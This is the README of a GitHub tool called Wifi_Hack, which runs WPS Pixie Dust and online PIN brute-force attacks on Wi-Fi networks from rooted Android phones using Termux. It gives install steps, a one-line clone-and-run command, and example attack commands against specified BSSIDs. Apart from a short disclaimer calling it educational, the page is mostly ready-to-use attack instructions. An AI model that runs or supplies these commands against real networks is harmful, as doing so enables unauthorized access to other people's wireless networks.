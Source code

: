 # Wifi_Hack
- WPS Attack Tool  A Python-based security tool for testing WPS-enabled Wi-Fi networks. Supports Pixie Dust attacks, brute-force PIN attempts, and network enumeration. Designed for penetration testers and researchers.
- ### ⚠ Disclaimer:
- This tool is for educational and security research purposes only. Unauthorized use on networks you do not own is illegal.


### Hack WIfi Using Termux With Rooted Devices!

<p align="center"><img src="https://i.ibb.co.com/whCnGHbr/Picsart-25-04-01-12-35-57-709-1.jpg"></p>

### Installation:  

```bash
$ rm -rf Wifi_Hack
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/ruhul-amin-xxl/Wifi_Hack
$ cd Wifi_Hack
$ chmod +x Wifi_Hack.py
$ sudo python Wifi_Hack.py --help
```


### One line command: 

```bash
rm -rf Wifi_Hack && apt update && apt upgrade -y && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/ruhul-amin-xxl/Wifi_Hack && cd Wifi_Hack && chmod +x Wifi_Hack.py && sudo python Wifi_Hack.py --help
```


Example:
### Note:First,  turn off your Wi-Fi.

Show available networks and start a Pixie Dust attack on a specified network: 

```bash
sudo python Wifi_Hack.py -i wlan0 -K
```


Start a Pixie Dust attack on a specific BSSID:

```bash
sudo python Wifi_Hack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
```
Launch an online WPS brute-force attack with the specified first half of the PIN:

```bash
sudo python Wifi_Hack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
```

### Troubleshooting
"Device or resource busy (-16)"
- Solution: Turn Wi-Fi ON, then turn it OFF before running the script again.

### ⚠ Disclaimer:
- This tool is for educational and security research purposes only. Unauthorized use on networks you do not own is illegal.
